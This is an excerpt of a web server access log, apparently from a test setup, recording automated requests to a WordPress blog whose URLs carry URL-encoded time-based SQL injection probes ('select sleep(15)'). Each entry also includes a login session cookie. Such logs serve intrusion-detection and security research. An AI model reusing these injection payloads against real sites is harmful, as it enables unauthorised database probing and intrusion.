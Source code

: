 ```
18/Jul/2020:13:38:45 +0200,172.26.0.1,50168,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen%27+or+0+in+%28select+sleep%2815%29+%29+--+/assets/css,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/blog/index.php/my-account/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=theory; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,404,Not Found,276,0,0,0,0,0,1,0,0,0,0,0,0,0,0
18/Jul/2020:13:38:45 +0200,172.26.0.1,50168,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen/assets/css/ie8.css?ver=1.0%22+and+0+in+%28select+sleep%2815%29+%29+--+,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=construction; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,200,OK,3646,0,0,0,0,0,1,0,0,0,0,0,0,0,0
18/Jul/2020:13:38:45 +0200,172.26.0.1,50169,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen%22+or+0+in+%28select+sleep%2815%29+%29+--+/assets/css,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/blog/index.php/my-account/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=cigarette; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,404,Not Found,276,0,0,0,0,0,1,0,0,0,0,0,0,0,0
18/Jul/2020:13:38:45 +0200,172.26.0.1,50169,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen/assets/css/ie8.css?ver=1.0+where+0+in+%28select+sleep%2815%29+%29+--+,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=soup; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,200,OK,3646,0,0,0,0,0,1,0,0,0,0,0,0,0,0
18/Jul/2020:13:38:45 +0200,172.26.0.1,50168,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen/assets/css,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/blog/index.php/my-account/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=priority; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,301,Moved Permanently,360,1,0,0,0,0,0,0,0,0,0,0,0,0,0
18/Jul/2020:13:38:46 +0200,172.26.0.1,50169,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen/assets+%2F+sleep%2815%29+/css,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/blog/index.php/my-account/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=teacher; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,404,Not Found,276,1,0,0,0,0,0,0,0,0,0,0,0,0,0
18/Jul/2020:13:38:46 +0200,172.26.0.1,50168,172.26.0.4,80,GET,/blog/wp-content/themes/twentyseventeen/assets/css/ie8.css?ver=1.0%27+where+0+in+%28select+sleep%2815%29+%29+--+,HTTP/1.1,Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0,http://test-site.com/,test-site.com,,comment_author_url_1aefbe2f76edd740f8e362f39da3353b=http%3A%2F%2Fwww.example.com; comment_author_email_1aefbe2f76edd740f8e362f39da3353b=foo-bar%40example.com; comment_author_1aefbe2f76edd740f8e362f39da3353b=language; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_1aefbe2f76edd740f8e362f39da3353b=rafael%7C1595243069%7CS1aAsPTqjUoyV2aimmpvYKjF7xFDV3DZPKn4Q7thFzB%7Cd4f9b4f5e6991cdb74513e27895a8683d1dc98424a4daa749abde34702a8a9ea,,,,,,,,HTTP/1.1,200,OK,3646,0,0,0,0,0,1,0,0,0,0,0,0,0,0
```